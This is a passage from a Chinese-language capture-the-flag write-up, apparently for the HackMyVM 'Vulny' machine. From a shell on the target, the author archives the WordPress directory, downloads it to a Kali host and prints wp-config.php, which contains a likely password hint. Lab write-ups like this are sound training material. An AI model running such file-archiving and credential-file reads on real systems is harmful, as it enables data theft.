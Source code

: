 数据库信息获取

先把wordpress给他download下来

```PHP
shell内：
cd /usr/share/wordpress
tar -czvf wordpress.tar.gz \*
exit y //退出shell
download /usr/share/wordpress/wordpress.tar.gz /home/kali/hmv/Vulny/wordpress.tar.gz
```
端口扫描时发现开放了33060端口 对应的服务时Mysqlx

看下配置文件

```PHP
cat /usr/share/wordpress/wp-config.php
```


```PHP
<?php
*/\*\*\
 *\* WordPress's Debianised default master config file*
 *\* Please do NOT edit and learn how the configuration works in*
 *\* /usr/share/doc/wordpress/README.Debian*
 *\*\*\*/*

*/\* Look up a host-specific config file in*
 *\* /etc/wordpress/config-<host>.php or /etc/wordpress/config-<domain>.php*
 *\*/*
$debian\_server = preg\_replace('/:.\*/', "", $\_SERVER['HTTP\_HOST']);
$debian\_server = preg\_replace("/[^a-zA-Z0-9.\-]/", "", $debian\_server);
$debian\_file = '/etc/wordpress/config-'.strtolower($debian\_server).'.php';
*/\* Main site in case of multisite with subdomains \*/*
$debian\_main\_server = preg\_replace("/^[^.]\*\./", "", $debian\_server);
$debian\_main\_file = '/etc/wordpress/config-'.strtolower($debian\_main\_server).'.php';

if (file\_exists($debian\_file)) {
    require\_once($debian\_file);
    define('DEBIAN\_FILE', $debian\_file);
} elseif (file\_exists($debian\_main\_file)) {
    require\_once($debian\_main\_file);
    define('DEBIAN\_FILE', $debian\_main\_file);
} elseif (file\_exists("/etc/wordpress/config-default.php")) {
    require\_once("/etc/wordpress/config-default.php");
    define('DEBIAN\_FILE', "/etc/wordpress/config-default.php");
} else {
    header("HTTP/1.0 404 Not Found");
    echo "Neither <b>$debian\_file</b> nor <b>$debian\_main\_file</b> could be found. <br/> Ensure one of them exists, is readable by the webserver and contains the right password/username.";
    exit(1);
}

*/\* idrinksomewater \*/*

*/\* Default value for some constants if they have not yet been set*
   *by the host-specific config files \*/*
if (!defined('ABSPATH'))
    define('ABSPATH', '/usr/share/wordpress/');
if (!defined('WP\_CORE\_UPDATE'))
    define('WP\_CORE\_UPDATE', false);
if (!defined('WP\_ALLOW\_MULTISITE'))
    define('WP\_ALLOW\_MULTISITE', true);
if (!defined('DB\_NAME'))
    define('DB\_NAME', 'wordpress');
if (!defined('DB\_USER'))
```